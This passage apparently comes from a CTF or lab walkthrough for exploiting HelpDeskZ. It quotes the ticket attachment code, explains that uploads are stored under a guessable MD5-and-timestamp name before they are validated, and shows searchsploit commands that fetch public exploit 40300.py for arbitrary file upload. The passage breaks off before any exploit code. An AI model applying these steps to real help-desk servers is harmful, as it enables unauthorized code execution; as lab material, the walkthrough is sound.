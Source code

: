 				     case '2':
				     $show_step2 = true;
				     $error_msg = $LANG['FILE_NOT_ALLOWED'];
				     break;
				     case '3':
				     $show_step2 = true;
				     $error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
				     break;
			     }
		     }
	     }	
     }

     ...
     ```
   __NOTE(S)__:
   - The ticketing service allows file attachments
   - The file is uploaded to __UPLOAD_DIR/tickets/__
   - The filename is changed:
     - A UNIX timestamp is concatenated at the end of the filename
     - The new filename is converted to an MD5 hash
     - The extension is preserved
   - The file is moved to the upload directory before verifying the attachment

2. Exploit HelpDeskZ's ticketing service:
   1. Search and download available exploits:
      ```console
      searchsploit helpdeskz
      # HelpDeskZ 1.0.2 - Arbitrary File Upload                                        | exploits/php/webapps/40300.py
      # HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download | exploits/php/webapps/41200.py

      searchsploit -m exploits/php/webapps/40300.py
      #   Exploit: HelpDeskZ 1.0.2 - Arbitrary File Upload
      #       URL: https://www.exploit-db.com/exploits/40300
      #      Path: /usr/share/exploitdb/exploits/php/webapps/40300.py
      # File Type: troff or preprocessor input, ASCII text, with CRLF line terminators
      ```
      - __*40300.py*__
        ```py
        ...
        